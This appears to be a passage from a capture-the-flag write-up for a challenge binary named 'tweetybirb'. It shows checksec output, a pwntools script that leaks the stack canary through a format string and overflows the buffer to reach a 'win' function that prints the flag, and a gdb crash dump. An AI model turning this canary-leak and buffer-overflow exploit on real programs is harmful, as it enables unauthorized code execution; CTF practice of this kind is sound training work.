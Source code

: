 We have the canary, let's overflow. But let's checksec first.

```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

PIE is disabled, so we can just hardcode addresses from our binary.

```py
from pwn import *

context.log_level = 'debug'

elf = ELF("./tweetybirb")

r = gdb.debug("./tweetybirb")
r.recvline()
r.sendline(b"%15$lx")
canary = int(r.recvline().strip(), 16)
log.success(f"{canary=}")
r.recvline()
r.sendline(b"A" * 72 + p64(canary) + b"A" * 8 + p64(elf.sym['win']))
r.interactive()                                                                                                                                                                    
```

```
[----------------------------------registers-----------------------------------]
RAX: 0x7f48d1170ec0 --> 0x7ffe61ebc7f8 --> 0x7ffe61ebe7b2 ("LC_CTYPE=C.UTF-8")
RBX: 0x402008 ("cat /home/user/flag.txt")
RCX: 0x7ffe61ebc538 --> 0xc ('\x0c')
RDX: 0x0 
RSI: 0x7f48d112bcba --> 0x68732f6e69622f ('/bin/sh')
RDI: 0x7ffe61ebc334 --> 0x0 
RBP: 0x7ffe61ebc538 --> 0xc ('\x0c')
RSP: 0x7ffe61ebc328 --> 0x0 
RIP: 0x7f48d0fa47c3 (<do_system+355>:   movaps XMMWORD PTR [rsp+0x50],xmm0)
R8 : 0x7ffe61ebc378 --> 0x0 
R9 : 0x7ffe61ebc7f8 --> 0x7ffe61ebe7b2 ("LC_CTYPE=C.UTF-8")
R10: 0x8 
R11: 0x246 
R12: 0x7ffe61ebc398 --> 0x0 
R13: 0x4011f2 (<main>:  endbr64)
R14: 0x0 
R15: 0x7f48d11b3c40 --> 0x50d0e00000000
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7f48d0fa47b4 <do_system+340>:        mov    QWORD PTR [rsp+0x60],rbx
   0x7f48d0fa47b9 <do_system+345>:  mov    r9,QWORD PTR [rax]
   0x7f48d0fa47bc <do_system+348>:  lea    rsi,[rip+0x1874f7]        # 0x7f48d112bcba
=> 0x7f48d0fa47c3 <do_system+355>:       movaps XMMWORD PTR [rsp+0x50],xmm0
   0x7f48d0fa47c8 <do_system+360>:    mov    QWORD PTR [rsp+0x68],0x0
   0x7f48d0fa47d1 <do_system+369>: call   0x7f48d1066000 <__GI___posix_spawn>
   0x7f48d0fa47d6 <do_system+374>:    mov    rdi,rbp
   0x7f48d0fa47d9 <do_system+377>:    mov    ebx,eax
[------------------------------------stack-------------------------------------]
0000| 0x7ffe61ebc328 --> 0x0 
0008| 0x7ffe61ebc330 --> 0xffffffff 
0016| 0x7ffe61ebc338 --> 0x0 
0024| 0x7ffe61ebc340 --> 0x0 
0032| 0x7ffe61ebc348 --> 0x0 
```